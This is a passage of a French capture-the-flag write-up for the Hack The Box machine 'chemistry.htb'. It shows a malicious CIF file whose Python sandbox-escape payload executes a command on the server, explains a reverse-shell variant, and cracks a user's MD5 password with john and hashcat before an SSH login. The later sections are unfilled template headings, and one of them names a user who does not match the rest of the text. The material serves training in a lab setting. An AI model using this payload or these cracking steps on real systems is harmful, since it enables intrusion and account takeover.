_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 5 10.10.x.x");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Dans un fenêtre Kali, lance la commande

```bash
sudo tcpdump -ni tun0 icmp
```

via l'interface web, uploade le fichier et lance le view

 Tu constates que la commande ping est bien exécutée 5 fois avant d'afficher l'erreur 500

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:41:31.937241 IP 10.129.x.x > 10.10.x.x: ICMP echo request, id 2, seq 1, length 64
10:41:31.937251 IP 10.10.x.x > 10.129.x.x: ICMP echo reply, id 2, seq 1, length 64
10:41:32.904025 IP 10.129.x.x > 10.10.x.x: ICMP echo request, id 2, seq 2, length 64
10:41:32.904039 IP 10.10.x.x > 10.129x.x: ICMP echo reply, id 2, seq 2, length 64
10:41:33.905702 IP 10.129.x.x > 10.10.x.x: ICMP echo request, id 2, seq 3, length 64
10:41:33.905717 IP 10.10.x.x> 10.129x.x: ICMP echo reply, id 2, seq 3, length 64
10:41:34.908317 IP 10.129.x.x > 10.10.x.x: ICMP echo request, id 2, seq 4, length 64
10:41:34.908333 IP 10.10.x.x > 10.129x.x: ICMP echo reply, id 2, seq 4, length 64
10:41:35.909620 IP 10.129.x.x > 10.10.x.x: ICMP echo request, id 2, seq 5, length 64
10:41:35.909635 IP 10.10.x.x > 10.129.x.x: ICMP echo reply, id 2, seq 5, length 64
^C
10 packets captured
10 packets received by filter
0 packets dropped by kernel
```


------

### Adaptation du PoC à chemistry.htb

Plutôt que d’utiliser un fichier CIF minimal, tu peux partir du fichier **exemple.cif** fourni par l’application.

L’idée est simple :

1. Conserver la structure valide du fichier
2. Injecter le payload au bon endroit
3. Générer un CIF malveillant cohérent

Pour cela, tu modifies légèrement un script `poc.py` afin qu’il :

- Prende `exemple.cif` comme base
- Injecte le payload RCE
- Génère un nouveau fichier `exploit.cif`

------

### Génération d’un CIF malveillant avec reverse shell

L’objectif final est d’injecter un payload Python permettant d’obtenir un reverse shell.

Le script modifié :

- Construit dynamiquement le payload
- L’intègre dans le champ vulnérable du CIF
- Produit un fichier prêt à être uploadé

Une fois uploadé sur l’application, le simple fait de cliquer sur **view** déclenche le parsing du fichier…
 et donc l’exécution du payload.

Si tout se déroule comme prévu, le reverse shell est établi vers ta machine.


```bash
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/chemistry]
└─$ echo "63ed86ee9f624c7b14f1d4f43dc251a5" > hash.txt
                                                                                                                       
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/chemistry]
└─$ john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorniosrosados (?)     
1g 0:00:00:00 DONE (2026-02-14 10:55) 8.333g/s 24848Kp/s 24848Kc/s 24848KC/s unihmaryanih..unicornios2805
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                       
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/chemistry]
└─$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v7.1.2) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-12th Gen Intel(R) Core(TM) i5-12600K, 6974/13949 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (13423 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 63ed86ee9f624c7b14f1d4f43dc251a5
Time.Started.....: Sat Feb 14 10:56:11 2026, (1 sec)
Time.Estimated...: Sat Feb 14 10:56:12 2026, (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  7675.0 kH/s (0.13ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2985984/14344385 (20.82%)
Rejected.........: 0/2985984 (0.00%)
Restore.Point....: 2981888/14344385 (20.79%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: unicornn -> unc112886
Hardware.Mon.#01.: Util: 19%

Started: Sat Feb 14 10:56:01 2026
Stopped: Sat Feb 14 10:56:13 2026
                                                                                                                       
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/chemistry]
└─$
```


```bash
                                                                                                                       
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/chemistry]
└─$ ssh rosa@chemistry.htb       
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
rosa@chemistry.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 14 Feb 2026 10:00:17 AM UTC

  System load:           0.0
  Usage of /:            72.6% of 5.08GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             231
  Users logged in:       0
  IPv4 address for eth0: 10.129.231.170
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b788

...

rosa@chemistry:~$ 
```


```bash
rosa@chemistry:~$ ls -l
total 4
-rw-r----- 1 root rosa 33 Feb 14 08:56 user.txt
rosa@chemistry:~$ cat user.txt
35afxxxxxxxxxxxxxxxxxxxxxxxxxxxac29
```


---

## Escalade de privilèges

Une fois connecté en SSH en tant que `jkr`, tu appliques la méthodologie décrite dans la recette
   .

### Sudo -l

La première étape consiste toujours à vérifier les droits `sudo` :


---

## Conclusion

- Récapitulatif de la chaîne d'attaque (du scan à root).
- Vulnérabilités exploitées & combinaisons.
- Conseils de mitigation et détection.
- Points d'apprentissage personnels.

---

## Pièces jointes (optionnel)

- Scripts, one-liners, captures, notes.  
- Arbo conseillée : `files/<nom_ctf>/…`

